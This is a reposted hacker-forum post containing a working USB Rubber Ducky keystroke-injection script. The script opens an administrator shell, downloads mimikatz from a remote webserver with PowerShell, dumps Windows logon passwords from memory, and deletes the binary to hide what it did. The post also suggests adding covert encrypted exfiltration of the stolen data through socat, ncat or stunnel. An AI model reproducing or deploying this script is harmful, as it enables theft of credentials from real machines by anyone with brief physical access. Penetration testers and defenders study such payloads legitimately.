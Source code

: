The following payload was written by redmeatuk. 

The payload's forum is located here: 

http://forums.hak5.org/index.php?/topic/29657-payload-ducky-script-using-mimikatz-to-dump-passwords-from-memory/

# From this point on is a copy paiste of redmeatuk's post in the forum. 
Hello all,

 

This is a Ducky script I knocked up to use the wonderful mimikatz tool. This tool allows you to dump hashes including the clear text passwords for wdigest from memory.

 

http://blog.gentilki...mikatz/minidump

http://www.room362.c...rds-with-a.html

 

Requirements -:

 

- Webserver to host Mimikatz binary for your architecture (I tested this on Windows 7 Home Premium 64-bit) you need the ones in the 'alpha' subfolder of the zip/7z file for your architecture

- Local user needs to be an administrator account/privs

 

What does it do ?

 

1. It spawns a command shell with administrator privileges

2. It downloads mimikatz from a webserver using powershell

3. Using mimikatz to dump wdigest passwords from memory

4. Cleans up by deleting the binaries it downloaded

 

It could be improved by using sneaky data exfil techniques to transfer the data encrypted offsite e.g. socat, ncat SSL, stunnel etc If you have a firmware installed that lets you store files you could copy the output to the SD card. Also mimikatz file could be encoded and run through powershell to generate the executable instead of 'wget'ing' the file.

 

You may need to adjust timings in this script to play nice on your machine(s).

 

Script -:

```
REM mimikatz ducky script to dump local wdigest passwords from memory using mimikatz (local user needs to be an administrator/have admin privs)
DELAY 3000
CONTROL ESCAPE
DELAY 1000
STRING cmd
DELAY 1000
CTRL-SHIFT ENTER
DELAY 1000
ALT y
DELAY 300
ENTER
STRING powershell (new-object System.Net.WebClient).DownloadFile('http://<replace me with webserver ip/host>/mimikatz.exe','%TEMP%\mimikatz.exe')
DELAY 300
ENTER
DELAY 3000
STRING %TEMP%\mimikatz.exe
DELAY 300
ENTER
DELAY 3000
STRING privilege::debug
DELAY 300
ENTER
DELAY 1000
STRING sekurlsa::logonPasswords full
DELAY 300
ENTER
DELAY 1000
STRING exit
DELAY 300
ENTER
DELAY 100
STRING del %TEMP%\mimikatz.exe
DELAY 300
ENTER
```